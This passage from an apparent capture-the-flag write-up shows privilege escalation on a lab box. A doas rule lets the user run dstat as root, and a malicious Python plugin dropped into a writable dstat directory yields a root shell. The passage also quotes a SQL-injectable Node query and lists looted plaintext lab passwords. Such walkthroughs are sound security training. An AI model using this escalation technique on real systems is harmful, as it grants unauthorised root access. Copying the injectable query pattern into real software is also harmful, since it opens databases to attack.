/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
...
```

Most are quite common and useless, except for `/usr/local/bin/doas`

We can do `man doas` to understand the command, 

```shell
/usr/local/bin/doas id
```

Result:

```text
doas: Operation not permitted
```

The user `player` is allawed to execute `doas`, but there is something more...

Since `doas` have a configuration file, we can search for it :

```shell
find / -name "doas*" 2> /dev/null
```

Result:

```text
/usr/local/share/man/man5/doas.conf.5
/usr/local/share/man/man1/doas.1
/usr/local/share/man/man8/doasedit.8
/usr/local/bin/doasedit
/usr/local/bin/doas
/usr/local/etc/doas.conf
```

and print it :

```shell
cat /usr/local/etc/doas.conf
```

Result:

```text
permit nopass player as root cmd /usr/bin/dstat
```

So user `player` is only allowed to execute `dstat` :

```shell
/usr/local/bin/doas /usr/bin/dstat
```

Result:

```text
You did not select any stats, using -cdngy by default.
--total-cpu-usage-- -dsk/total- -net/total- ---paging-- ---system--
usr sys idl wai stl| read  writ| recv  send|  in   out | int   csw 
  5   5  89   0   0| 187k   21k|   0     0 |   5B   21B| 322   485 
  1   0  99   0   0|   0     0 | 330B 1214B|   0     0 | 253   493 
  1   0  99   0   0|   0     0 | 132B  436B|   0     0 | 268   500 
  0   0  99   0   0|   0     0 | 132B  436B|   0     0 | 246   473 
```

`dstat` is referenced in [GTFOBins](https://gtfobins.github.io/gtfobins/dstat/) and could allow us to get a shell :

> dstat allows you to run arbitrary python scripts loaded as “external plugins” if they are located in one of the directories stated in the dstat man page under “FILES”:
>
>~/.dstat/
>(path of binary)/plugins/
>/usr/share/dstat/
>/usr/local/share/dstat/

This can also be found in `man dstat` :

```text
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
```

Among these directories, `/usr/local/share/dstat/`, allow us to write a file :

```shell
ls -la /usr/local/share/dstat/
```

Result:

```text
total 8
drwxrwx--- 2 root player 4096 May  1 14:30 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
```

We can create a python file in this directory, and use dstat to execute it :

```shell
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_shell.py
doas /usr/bin/dstat --shell
```

Result:

```text
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

We have a root shell.

### further recon

Now we have full access. We can now see the running process behind port 9091 :

```shell
netstat -tnlp
```

Result:

```text
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1094/nginx: master  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      1001/systemd-resolv 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1060/sshd: /usr/sbi 
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      1200/node /root/app 
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      1247/node /root/app 
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      1127/mysqld         
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1127/mysqld         
tcp6       0      0 :::80                   :::*                    LISTEN      1094/nginx: master  
tcp6       0      0 :::22                   :::*                    LISTEN      1060/sshd: /usr/sbi
```

This is 2 node.js applications, on port 3000 and 9091 :

```shell
ps -ef | grep node
```

Result:

```text
root        1200    1153  0 16:12 ?        00:00:01 node /root/app/app.js
root        1247    1153  0 16:12 ?        00:00:01 node /root/app/server.js
```

The application `/root/app/server.js` is behind port 9091. It's a really simple application, and we can confirm the SQL injection from code :

```js
const query = `Select id,username,password  FROM accounts where id = ${id}`;
```

## End game

### Cleaning

- remove file `/usr/local/share/dstat/dstat_shell.py`

## Loots

### credentials

| Username  | Password  | Hash      | Usage     |
| ---       | ---       | ---       | ---       |
| admin     | admin@123 |           | Tiny File Manager |
| player    | PlayerOftheMatch2022 | | SSH      |
